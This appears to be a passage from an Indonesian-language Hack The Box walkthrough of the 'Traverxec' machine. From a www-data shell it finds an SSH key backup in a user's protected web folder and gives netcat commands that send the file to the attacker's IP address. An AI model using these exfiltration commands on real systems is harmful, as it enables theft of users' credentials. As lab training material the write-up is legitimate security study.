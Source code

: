 untuk `list dir` pada path `david` hanya `public_www` yang dapat di akses, selanjutnya terdapat path `protected-file-area` yang terdapat file ssh untuk akses user

```
www-data@traverxec:/home/david/public_www$ ls -la
ls -la
total 16
drwxr-xr-x 3 david david 4096 Oct 25 15:45 .
drwx--x--x 5 david david 4096 Oct 25 17:02 ..
-rw-r--r-- 1 david david  402 Oct 25 15:45 index.html
drwxr-xr-x 2 david david 4096 Oct 25 17:02 protected-file-area
www-data@traverxec:/home/david/public_www$ cd protected-file-area
cd protected-file-area
www-data@traverxec:/home/david/public_www/protected-file-area$ ls -l
ls -l
total 4
-rw-r--r-- 1 david david 1915 Oct 25 17:02 backup-ssh-identity-files.tgz
www-data@traverxec:/home/david/public_www/protected-file-area$
```

ketika membuka website dengan path david pada browser dengan url `http://10.10.10.165/~david/protected-file-area/` dengan maksud ingin mendapatkan file `backup-ssh-identity-files.tgz`, namun tidak dapat diakses, harus menggunakan username dan password david

![david-protected-area](/assets/images/htb-machine-traversec/david-protected-area.png)

untuk mendapatkan file `backup-ssh-identity-files.tgz` pada sisi attacker menggunakan `nc` scommand shell `$ nc -lvp 3333 >backup-ssh-identity-files.tgz` dan pada sisi server `nc 10.10.14.16 3333 < backup-ssh-identity-files.tgz` 
